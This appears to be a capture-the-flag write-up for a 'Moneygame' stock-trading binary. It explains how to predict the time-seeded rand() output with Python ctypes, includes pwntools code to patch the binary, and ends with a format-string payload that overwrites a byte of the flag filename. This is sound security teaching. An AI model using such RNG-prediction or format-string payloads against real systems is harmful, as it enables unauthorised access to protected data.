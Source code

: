 # Moneygame 1/2

## Recon

We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This was annoying to debug. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu)

```python
from pwn import *

elf = ELF('moneygame')
# NOP out annoying print that clears screen
elf.asm(0x80487b3, 'nop')
elf.asm(0x80487b4, 'nop')
elf.asm(0x80487b5, 'nop')
elf.asm(0x80487b6, 'nop')
elf.asm(0x80487b7, 'nop')

elf.save('moneygame-patched')
```

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating these random numbers on our end is trivial:

```python
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
```

From here, we replicate the same function that creates the stocks from the binary in Python:

```python
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
```

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:
* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
```
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
```

Starting with the most profitable, fill in our available actions:
```
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
```

Second most profitable:
```
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
```

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
```
[1, 5, 50, '2']
# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
```

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

```
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
```
